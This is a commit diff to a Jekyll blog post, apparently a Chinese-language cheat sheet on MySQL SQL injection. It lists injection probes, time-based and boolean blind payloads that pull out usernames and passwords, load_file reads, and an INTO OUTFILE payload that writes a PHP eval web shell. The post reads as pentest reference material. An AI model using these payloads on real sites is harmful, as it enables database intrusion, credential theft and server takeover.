

Before and after one commit to alpha1e0/alpha1e0.github.io, a Jekyll site: the page built from _posts/2015-05-09-mysql-sql-注入.md, in a window 1280 px wide and 1400 px high, scrolled down 1000 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; Markdown is read by kramdown in place of the engine named in the settings; some of the changed text lies outside the part shown.

Commit message:
update post mysql sql inject

```diff
--- a/_posts/2015-05-09-mysql-sql-注入.md
+++ b/_posts/2015-05-09-mysql-sql-注入.md
@@ -7,20 +7,24 @@ tags: 渗透测试
 ---
 
 ### 0x00 特殊符号
+
 	注释符：＃、 /*、— (后面加空格)
 	%0c = form feed, new page
 	%09 = horizontal tab
 	%0d = carriage return
 	%0a = line feed, new line
 	空格：使用/**/或()或+代替空格
+
 ------
 
 ### 0x01重要的系统数据库
+
 	mysql.user                           /*存储mysql数据库的用户及用户权限信息
 	information_schema.schemata          /*存储mysql中所有数据库
 	information_schema.tables            /*存储mysql中所有数据库的表
 	information_schema.columns           /*存储mysql中所有数据库的列
 	information_schema.user_privileges   /*存储mysql中所有数据库的权限信息
+
 ------
 
 ### 0x02 常用操作
@@ -65,22 +69,35 @@ tags: 渗透测试
 	sleep(seconds) 停止seconds秒，用于time-based盲注
 	benchmark(times, function) 将function执行times次，该函数可用于time-based盲注，例如（benchmark(500000, encode(‘a’,’b'))）
 	encode(str, passwd_str) 使用passwd_str加密str函数
+
 ------
 
 ### 0x03 判断是否可注入
-1. 使用单引号‘判断注入
-*例如：http://aaa.com/s.php?id=1'，如果返回页面提示syntax error，则说明有漏洞*
-2. 通过附加逻辑运算判断注入
-*例如：http://aaa.com/s.php?id=1 and 1=1/and 1=2，and 1=1有返回，and 1=2无返回*
-3. 通过算数运算判断注入点
-*例如：http://aaa.com/s.php?id=11-1*
-4. 通过select语句判断注入点
-*例如：http://aaa.com/s.php?id=(select 10)*
-5. 通过时间函数判断注入点
-*例如：http://aaa.com/s.php?id=2 and sleep(10)或者http://aaa.com/s.php?id=2 and benchmark(500000, encode('msg','bbb'))*
+
+1、使用单引号‘判断注入，例如：
+
+	http://aaa.com/s.php?id=1'，如果返回页面提示syntax error，则说明有漏洞
+
+2、通过附加逻辑运算判断注入，例如：
+
+	http://aaa.com/s.php?id=1 and 1=1/and 1=2，and 1=1有返回，and 1=2无返回
+
+3、通过算数运算判断注入点，例如：
+
+	例如：http://aaa.com/s.php?id=11-1
+
+4、通过select语句判断注入点，例如：
+
+	http://aaa.com/s.php?id=(select 10)
+
+5、通过时间函数判断注入点，例如：
+
+	http://aaa.com/s.php?id=2 and sleep(10)或者http://aaa.com/s.php?id=2 and benchmark(500000, encode('msg','bbb'))
+
 ------
 
 ### 0x04 常规注入
+
 1. 猜解列数 “order by n /* ”
 
 2. 查询mysql基本信息(假设数据库表有7列)
@@ -141,16 +158,19 @@ tags: 渗透测试
          ?id=5 and (select 1 from users limit 0,1)=1   猜解users表是否存在
          ?id=5 and (select substring(concat(1,password),1,1) from users limit 0,1)=1  猜解列名
          ?id=5 and ascii(substring((SELECT concat(username,0x3a,password) from users limit 0,1),1,1))>80
+
 ------
 
 ### 0x07 mysql读写文件
 
 #### 判断是否具有读写权限:
+
 	and (select count(file_priv) from mysql.user)>0/*
 	and 1=2 union select 1,2, concat_ws(':', host, user, file_priv) from mysql.user/*
 	例如：select * from site_tb where 1=2 union select 1,2, concat_ws(':', host, user, file_priv) from mysql.user;
 
 #### 读文件
+
 	create table a(cmd text);
 	load data infile '/Users/apple/tmp/test.txt' into table a;
 	select * from a;   /* mysql 3.x 5.x
@@ -163,14 +183,39 @@ tags: 渗透测试
 	例如：select * from site_tb union select 1, 2, concat(load_file('/Users/apple/tmp/test.txt'));
 
 #### 写文件
+
 	union select 1,2,3,char(这里写入你转换成10进制或16进制的一句话木马代码),5,6,7,8,9,10,7 into outfile ‘d:\web\90team.php’/*s
 	union select 1,2,3,load_file(‘d:\web\logo123.jpg’),5,6,7,8,9,10,7 into outfile ‘d:\web\90team.php’/*
 	例如：select * from site_tb union select 1, 2, '<?php eval(\"_POST[\'test\']\”);?>' into outfile 'shell.php';
 
 ### 0x08插入、更新数据
+
 	insert into user(username,password) values(‘xxxx’,’ xxxx’),(‘dddd’,’dddd’)/* ‘);
 	update table set column=value where **/*
+
 ------
+
+### 其他
+
+关于mysql sql语句：
+
+可以用括号将自语句括起来：
+
+	select user,password from users where user_id=1 union(select 1,schema_name from information_schema.schemata limit 1)
+
+union 后面只能跟select语句，
+
+	 select user,password from users where user_id=1 union (select 1,(select 2))
+
+select 中的字段可以嵌套select语句：
+
+	select user,password from users where user_id=1 union(select 1,(select schema_name from information_schema.schemata limit 1))
+
+where后面的表达式可以是select语句：
+
+	id=5 and (select 1 from users limit 0,1)=1
+
+嵌入select语句的位置有两个：select后面的列、where后面的表达式。select (select xx), select * from xx where (select **)>xx
 
 ### 参考：
 * http://www.91ri.org/9000.html
```
Also changed, not shown: _posts/2015-8-5-XSS防护bypass.md (+2 -2 lines).
